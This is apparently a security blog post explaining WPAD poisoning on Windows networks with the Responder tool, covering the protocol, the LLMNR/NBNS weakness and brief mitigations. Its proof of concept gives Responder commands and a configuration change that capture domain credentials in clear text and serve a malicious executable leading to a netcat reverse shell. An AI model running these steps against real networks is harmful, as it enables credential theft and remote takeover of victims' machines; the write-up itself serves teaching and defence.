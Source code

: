 ```yaml
---
layout: post
title:  "Windows - WPAD poisoning using Responder"
categories: "Windows"
tags:  windows responder
author: Trelis
---
```


* content
{:toc}

In this article it will be shown how it works Microsoft Windows's name resolution services and how can it be abused.




# WPAD
## Description
Organizations allow employees to access Internet through proxy servers to increase performance, ensure security and track traffic. Users who connect to the corporate network need to know which proxy server they have to use without doing any configuration.

If a browser is configured to automatically detect proxy settings, then it will make use of WPAD protocol to locate and download the wpad.dat, Proxy Auto-Config (PAC) file. 


## Protocol details
It searches computers named as “wpad” on the local network to find this file. And then following steps are carried out:
1. If the DHCP Server is configured, the client retrieves the wpad.dat file from the DHCP Server (if successful, step 4 is taken).
2. The wpad.corpdomain.com query is sent to the DNS server to find the device that is distributing the Wpad configuration. (If successful, step 4 is taken).
3 Send LLMNR or NBNS query for WPAD (if success, go step 4 else proxy can’t be use)
4. Download wpad.dat and use it.

In the following traffic capture, the machine sends the NBNS packets in broadcast asking for the wpad.dat:
![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/wireshark1.png)


# Vulnerability
## Description
When a machine has these protocols enabled, if the local network DNS is not able to resolve the name, the machine will ask to all hosts of the network. So, any host of the network, who knows its IP, can reply. Even if a host replies with an incorrect information, it will be still regarded as legitimate.

## Scenario
1. The victim will open the browser which is configured with the option "automatically detect settings" in "Local Area Network (LAN) Settings".
2. The name resolution, which will be performed with the steps we mentioned earlier, will be questioned on the victim’s computer first.
3. In step 2, because of the DNS Server does not have a corresponding record, the name of the system is sent as LLMNR or NetBIOS-NS query.
4. The attacker listens to network traffic, catches name resolution query. It tells to the victim that he has the wpad.dat the victim is look for.

According to the sequence above, if an attacker wants to be sure that the attack is successful, he must do:
1. DHCP poisoning attack
2. DNS poisoning attack
3. WPAD poisoning attack

This article is focused only in attacking the third step, making the assumption that neither DHCP nor DNS are configured.


# Exploiting
## Responder
Responder is a tool created by Laurent Gaffie used to obtain network credentials. This tool listens and answers LLMNR and NBT-NS procotols. 

Creating authentication services like SMB, MSSQL, HTTP, HTTPS, FTP, POP3, SMTP, Proxy WPAD, DNS, LDAP, etc, it will try that the victim sends its credentials to any of this services so the attacker can steal them. 

## Proof of Concept
To demonstrate the attack, Kali Linux is used to steal the credentials of a Windows 10 user. Kali has Responder pre-installed and can be found at the directory:
```
/usr/share/responder/
```

When the victim makes WPAD name resolution to the attacker WPAD fake server, it creates an authentication screen and it asks the client to enter his domain credentials. 

```
responder -I eth0 -wFb
```

![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/responder1.PNG)

The victim will see the following dialog box:

![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/authentication.PNG)


If the victim enters the credentials, the attacker will receive the username and password in clear-text:

![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/responder2.PNG)

With Wireshark, it can be seen how the victim tries to retrieve the wpad.dat file and it sends the password encoded with Base64:

![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/wireshark2.png)



Moreover, Responder is able to redirect the user to a fake webpage or serve a malicious executable.

The following changes must be done in the responder.conf file:
```
[HTTP Server]

; Set to On to replace any requested .exe with the custom EXE
Serve-Exe = On 

; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = On
 ```

Then start Responder:
```
responder -I eth0 -I 10.7.7.31 -r On -w On -wFb
```

![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/responder3.PNG)


Now, when the victim tries to use the browser, he will see the following page:
![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/malicious_website2.png)

If, by chance, the victim clicks the link, a reverse shell will be downloaded:
![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/responder4.PNG)

Finally, if the victim executes the malicious executable, with netcat in port 140 the attacker will be able to obtain access to the victim's computer:
![](https://raw.githubusercontent.com/trelis24/trelis24.github.io/master/img/2018-08-03-Windows-WPAD-Poisoning-Responder/shell.png)


# Mitigation
* First solution for this attack is, create DNS entry with “WPAD” that points to the corporate proxy server. So the attacker won’t be able to manipulate the traffic.
* Second solution is disable “Autodetect Proxy Settings” on all browsers.